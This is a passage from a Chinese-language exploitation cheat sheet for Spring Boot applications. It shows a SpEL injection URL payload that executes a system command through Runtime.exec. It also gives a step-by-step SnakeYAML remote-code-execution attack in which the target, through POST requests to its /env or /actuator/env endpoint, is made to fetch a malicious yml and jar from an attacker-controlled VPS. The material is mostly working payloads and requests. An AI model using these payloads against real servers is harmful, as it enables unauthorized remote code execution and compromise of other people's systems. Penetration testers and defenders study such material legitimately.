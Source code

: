 ```
http://127.0.0.1:9091/article?id=66
```

执行 `open -a Calculator` 命令：

```
http://127.0.0.1:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```

#### 0x02：spring cloud SnakeYAML RCE

**利用条件：**

* 可以 POST 请求目标网站的 `/env` 接口设置属性
* 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
* 目标依赖的 `spring-cloud-starter` 版本 < 1.3.0.RELEASE
* 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

**利用方法：**

**步骤一： 托管 yml 和 jar 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在网站根目录下放置后缀为 `yml` 的文件 `example.yml`，内容如下：

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-vps-ip/example.jar"]
  ]]
]
```

在网站根目录下放置后缀为 `jar` 的文件 `example.jar`，内容是要执行的代码，代码编写及编译方式参考 [yaml-payload](https://github.com/artsploit/yaml-payload)。

**步骤二： 设置 spring.cloud.bootstrap.location 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/example.yml
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/example.yml"}
```
